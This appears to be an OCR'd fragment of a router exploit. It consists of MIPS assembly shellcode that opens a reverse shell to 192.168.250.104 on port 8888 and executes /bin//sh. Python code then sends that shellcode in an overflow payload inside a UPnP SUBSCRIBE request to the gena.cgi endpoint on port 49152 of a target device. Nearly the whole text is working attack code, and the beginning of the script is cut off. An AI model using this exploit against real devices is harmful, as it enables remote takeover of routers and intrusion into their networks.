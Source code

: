 ```
    lui $a1, 0xB821 # Port: 8888
    ori $a1, 0xFF01
    addi $a1, $a1, 0x0101
    sw $a1, -8($sp)
 
    li $a1, 0x68FAA8C0 # IP: 192.168.250.104
    sw $a1, -4($sp)
    addi $a1, $sp, -8
 
    li $t4, 0xFFFFFFEF
    not $a2, $t4
    li $v0, 4170
    syscall 0x42424
 
    lui $t0, 0x6962
    ori $t0, $t0,0x2f2f
    sw $t0, -20($sp)
 
    lui $t0, 0x6873
    ori $t0, 0x2f6e
    sw $t0, -16($sp)
 
    slti $a3, $zero, 0xFFFF
    sw $a3, -12($sp)
    sw $a3, -4($sp)
 
    addi $a0, $sp, -20
    addi $t0, $sp, -20
    sw $t0, -8($sp)
    addi $a1, $sp, -8
 
    addiu $sp, $sp, -20
 
    slti $a2, $zero, 0xFFFF
    li $v0, 4011
    syscall 0x42424
''')
payload += b'a'*0x18
payload += shellcode
 
msg = b"SUBSCRIBE /gena.cgi?service=" + payload + b" HTTP/1.1\r\n"
msg += b"Host: localhost:49152\r\n"
msg += b"SID: 1\r\n"
msg += b"Timeout: Second-2333\r\n\r\n"
 
s.connect((gethostbyname("192.168.250.1"), 49152))
s.send(msg)
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8HoL8rWLfqC4l5ibczH6C2H4DW6yOeibKicyPOIrcLO6HIjqWdmHib7MkLIGJjwib7xkzicZwHQvstBEd6A/640?wx_fmt=png)
